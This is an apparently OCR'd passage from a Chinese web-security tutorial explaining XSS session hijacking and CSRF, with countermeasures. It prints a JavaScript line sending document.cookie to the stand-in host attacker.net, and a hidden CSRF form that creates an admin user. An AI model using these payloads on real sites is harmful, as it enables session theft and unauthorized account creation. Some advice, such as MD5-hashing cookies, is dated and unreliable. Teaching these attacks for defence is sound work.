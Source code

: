 显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。
比如攻击者构造一个这样的 URL，message 信息如下
```js
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```
这样被攻击者通过访问这个恶意的 URL，就会把 cookie 发送给黑客，黑客截获 cookie，就能执行用户的任意操纵。
### OSRF
跨站点请求伪造才是跨站伪造的重点内容，攻击者只需要创建一个看似无害的网站，致使受害者的浏览器直接向易受攻击的服务器提交一个请求，执行恶意代码。
仍然需要考虑同源策略，以管理员创建新用户为例，
```txt
POST /newUser.php HTTP/1.1
Host: xxx.com
Cookie: SessionId=...
Content-Length: ..

name=ro&userrole=admin&password=123456&confirmpassword=123456
```
黑客构造的网站会提交一个 form 表单，并想办法让 form 隐藏：
```html
<!DOCTYPE html>
<html>
<body>
  <form action="http://xxx.com/newUser.php" method="POST">
    <input type="hidden" name="name" value="ro">
    <input type="hidden" name="userrole" value="admin">
    <input type="hidden" name="password" value="123456">
    <input type="hidden" name="confirmpassword" value="123456">
  </form>
</body>
</html>
```
当管理员已经登陆的情况下，访问这个恶意网站的时候，就会提交这段脚本，管理员都不知情。因为管理员已经登陆，无需考虑 Cookie 的问题，一个简单的 CSRF 如此。
**应对办法**
1. 对一些关键字和特殊字符进行过滤或 URL、HTML 编码，"<>?"或"script，javascript"；
2. Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；
4. 验证HTTP Referer
3. 在请求中添加 token 并验证
